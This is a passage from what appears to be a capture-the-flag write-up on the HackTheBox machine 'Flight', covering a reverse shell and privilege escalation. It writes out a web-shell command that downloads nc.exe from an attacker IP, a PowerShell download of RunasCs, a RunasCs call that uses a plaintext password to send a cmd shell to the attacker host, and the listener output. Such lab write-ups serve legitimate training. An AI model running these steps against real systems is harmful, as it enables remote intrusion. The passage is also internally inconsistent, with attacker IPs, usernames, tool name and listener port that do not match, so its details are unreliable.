 
### Reverse shell

```sh
http://school.flight.htb/styles/.php?cmd=curl+10.10.14.7:2222/nc.exe -o C:\Windows\Temp\nc64.exe
```

## Privilege Escalation

### RunCs

The [RunasCs](https://github.com/antonioCoco/RunasCs) project aims to create a binary like `runas.exe` but without limitations:

> - Allows explicit credentials
> - Works both if spawned from interactive process and from service process
> - Manage properly _DACL_ for _Window Stations_ and _Desktop_ for the creation of the new process
> - Uses more reliable create process functions like `CreateProcessAsUser()` and `CreateProcessWithTokenW()` if the calling process holds the required privileges (automatic detection)
> - Allows to specify the logon type, e.g. 8-NetworkCleartext logon (no _UAC_ limitations)
> - Allows to bypass UAC when an administrator password is known (flag –bypass-uac)
> - Allows redirecting _stdin_, _stdout_ and _stderr_ to a remote host
> - It’s Open Source :)

I’ll download the latest release, host it with a Python web server, and upload it to Flight:

```powershell
C:\ProgramData>powershell -c wget 10.10.14.6/RunasCs.exe -outfile r.exe
```

Now I’ll invoke a cmd.exe as C.Bun using -r to redirect STDIN/STDOUT to my host:

```powershell
C:\ProgramData>.\r.exe C.Bum Tikkycoll_431012284 -r 10.10.14.6:443 cmd
[*] Warning: Using function CreateProcessWithLogonW is not compatible with logon type 8. Reverting to logon type Interactive (2)...
[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-5ea78$\Default
[+] Async process 'cmd' with pid 4508 created and left in background.
```

With nc listening on my box, there’s a connection:

```sh
oxdf@hacky$ rlwrap -cAr nc -lnvp 443
Listening on 0.0.0.0 444
Connection received on 10.10.11.187 49906
Microsoft Windows [Version 10.0.17763.2989]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
flight\c.bum
```

### Enumeration
